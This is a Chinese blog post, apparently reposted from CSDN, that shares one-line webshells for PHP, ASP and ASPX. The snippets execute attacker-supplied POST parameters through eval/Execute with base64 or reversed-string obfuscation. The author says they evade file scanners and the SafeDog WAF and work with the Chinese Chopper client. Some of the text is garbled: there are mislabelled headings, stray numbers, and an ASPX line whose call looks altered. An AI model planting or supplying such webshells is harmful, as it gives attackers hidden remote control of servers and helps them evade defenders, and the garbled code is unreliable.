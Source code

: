 实已经不是一句话了，好几句了都。

继续上次的：我使用的一句话的几种姿态

这回研究了下PHP，发一下我使用的一句话（可过文件扫描）。

### ASP

```csharp
<?php $mujj = $_POST['z']; if ($mujj!="") { $xsser=base64_decode($_POST['z0']); @eval("\$safedg = $xsser;"); } ?>
1
```

密码z，支持菜刀连接；支持变异菜刀连接以过安全狗。

另外：

ASP

```csharp
<% Function MorfiCoder(Code) MorfiCoder=Replace(Replace(StrReverse(Code),"//",""""),"*",vbCrlf)
End Function
Execute MorfiCoder(")//z/*/(tseuqer lave") %>
123
```

ASPX

```csharp
<% popup(popup(System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String("UmVxdWVzdC5JdGVtWyJ6Il0=")))); %>
1
```

分享是交流的关键，我不喜欢什么大马 小马 一句话是我的最爱，不仅隐藏性高 免杀效果好 而且无后门（当然排除菜刀有） ---- 没禁用一句话post的情况下。



原文链接：https://blog.csdn.net/qq_44632668/article/details/97818432